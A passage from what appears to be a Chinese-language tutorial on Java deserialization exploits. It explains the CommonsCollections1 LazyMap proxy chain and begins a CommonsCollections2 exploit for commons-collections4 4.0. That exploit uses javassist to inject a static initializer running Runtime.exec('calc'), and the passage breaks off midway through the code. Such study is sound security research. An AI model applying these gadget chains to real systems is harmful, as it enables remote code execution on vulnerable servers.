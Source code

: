 发现invoke函数的1处，若this.memberValues是LazyMap则可以触发get函数。

那么可以利用AnnotationInvocationHandler实现了InvocationHandler，是一个动态代理类的特点，创建一个LazyMap的代理。（动态代理详见[Java动态代理](https://javaguide.cn/java/basis/proxy.html#_3-1-jdk-%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86%E6%9C%BA%E5%88%B6)）

即Exp中的

​`InvocationHandler ith = (InvocationHandler) ctor.newInstance(SuppressWarnings.class, outerMap)`​

​`Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},ith)`​

当mapProxy调用一个方法时，这个方法的调用就会被转发到实现了InvocationHandler接口类的AnnotationInvocationHandler的invoke方法来调用。

而readObject函数的2处，刚好通过mapProxy调用了entrySet方法，此时就会触发invoke函数的1处。

因此有Exp代码中的`Object o = ctor.newInstance(SuppressWarnings.class, mapProxy)`​

这样整个调用链就完成了。

ps：我们在TransformerMap链中提到了构造AnnotationInvocationHandler实例时要用SuppressWarnings类、Target类或Retention类，但LazyMap链在2处即可触发，不涉及后面的代码，因此此处任意Annotation类的继承类都可以。

## CommonsCollections2

### 版本适用范围

commons-collections4 4.0

### Exp展示

commons-collections4 4.0中，LazyMap和TransformedMap没有了decorate方法，因此CommonCollections1中的利用链无法使用，需要另找别的利用链。

CommonCollections2的思路是创建一个类，在该类中构造一个包含payload的static代码块，那么JVM加载类时会执行这些静态的代码块，就会触发payload。

```java
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommomsCollections2 {
    public static void main(String[] args) throws Exception {
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        ClassPool classPool=ClassPool.getDefault();//返回默认的类池
        classPool.appendClassPath(AbstractTranslet);//添加AbstractTranslet的搜索路径
        CtClass payload=classPool.makeClass("CommonsCollections22222222222");//创建一个新的public类
        payload.setSuperclass(classPool.get(AbstractTranslet));  //设置前面创建的CommonsCollections22222222222类的父类为AbstractTranslet
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");"); //创建一个空的类初始化，设置构造函数主体为runtime

        byte[] bytes=payload.toBytecode();//转换为byte数组

        Object templatesImpl=Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();//反射创建TemplatesImpl
```